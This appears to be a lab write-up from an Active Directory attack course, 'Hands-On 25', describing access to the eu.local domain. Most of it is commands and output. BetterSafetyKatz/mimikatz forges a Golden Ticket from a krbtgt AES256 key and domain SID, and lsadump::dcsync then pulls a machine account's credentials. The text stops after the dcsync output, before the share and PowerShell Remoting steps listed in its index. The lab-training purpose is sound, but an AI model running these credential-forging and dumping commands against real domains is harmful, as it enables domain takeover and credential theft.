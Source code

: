 # Hands-On 25:

```
Using the DA access to eu.local:
− Access eushare on euvendor-dc.
− Access euvendor-net using PowerShell Remoting.
```

## Index Of COntent

  1. [Using DA accss to eu local](#using-da-access-to-eu-local)
  2. [Accesss eushare on euvendor dc](#access-eushare-on-euvendor-dc)
  3. [Access euvendor net using powershell remoting](#access-euvendor-net-using-powershell-remoting)

## Using DA accss to eu local

Using a Golden Ticket technique in order to gain access to eu.local, with BetterSafetykatz, the SID and the aes256 hash are from krbtgt user dumped on the hands-on 23:
```
C:\Windows\system32>C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:eu.local /sid:S-1-5-21-3657428294-2017276338-1274645009 /aes256:b3b88f9288b08707eab6d561fefe286c178359bda4d9ed9ea5cb2bd28540075d /ptt
[+] Stolen from @harmj0y, @TheRealWover, @cobbr_io and @gentilkiwi, repurposed by @Flangvik and @Mrtn9
[+] Randomizing strings in memory
[+] Suicide burn before CreateThread!

  .#####.   mimikatz 2.2.0 (x64) #19041 Dec 23 2022 16:49:51
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # kerberos::golden /user:Administrator /domain:eu.local /sid:S-1-5-21-3657428294-2017276338-1274645009 /aes256:b3b88f9288b08707eab6d561fefe286c178359bda4d9ed9ea5cb2bd28540075d /ptt
User      : Administrator
Domain    : eu.local (EU)
SID       : S-1-5-21-3657428294-2017276338-1274645009
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: b3b88f9288b08707eab6d561fefe286c178359bda4d9ed9ea5cb2bd28540075d - aes256_hmac
Lifetime  : 3/3/2023 11:37:46 AM ; 2/28/2033 11:37:46 AM ; 2/28/2033 11:37:46 AM
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'Administrator @ eu.local' successfully submitted for current session

```
Dump lda process from euvendor machine:
```
mimikatz # lsadump::dcsync /user:eu\euvendor$ /domain:eu.local
[DC] 'eu.local' will be the domain
[DC] 'EU-DC.eu.local' will be the DC server
[DC] 'eu\euvendor$' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)
```
